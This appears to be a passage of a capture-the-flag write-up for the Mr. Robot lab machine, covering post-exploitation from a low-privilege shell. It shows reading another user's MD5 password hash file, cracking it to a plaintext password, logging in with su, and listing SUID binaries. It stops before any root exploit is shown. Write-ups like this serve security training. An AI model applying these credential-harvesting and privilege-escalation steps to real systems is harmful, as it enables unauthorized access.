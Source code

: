 
## POST-EXPLOIT

### ROBOT user access
- We found out we had jack shit for access

		daemon@linux:/home/robot$ id
		uid=1(daemon) gid=1(daemon) groups=1(daemon)

- Moved to home to see the robot user and found a MD5 Hashed passwords file 

		daemon@linux:/home/robot$ ls -al
		total 16
		drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
		drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
		-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
		-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
		daemon@linux:/home/robot$ cat password.raw-md5 
		robot:c3fcd3d76192e4007dfb496cca67e13b

- Cracked it on Crackstation and got the credentials: 

		robot:abcdefghijklmnopqrstuvwxyz
		
![[Pasted image 20211124201558.png]]

- We log into the ROBOT user shell through 

		su robot
		Password: abcdefghijklmnopqrstuvwxyz
		

### ROOOT user access

- Checking for SUID 
	
		robot@linux:/$ find / -perm /4000 2>/dev/null
		
		/bin/ping
		/bin/umount
		/bin/mount
		/bin/ping6
		/bin/su
		/usr/bin/passwd
		/usr/bin/newgrp
		/usr/bin/chsh
		/usr/bin/chfn
		/usr/bin/gpasswd
		/usr/bin/sudo
		/usr/local/bin/nmap
		/usr/lib/openssh/ssh-keysign
		/usr/lib/eject/dmcrypt-get-device
		/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
		/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
		/usr/lib/pt_chown
		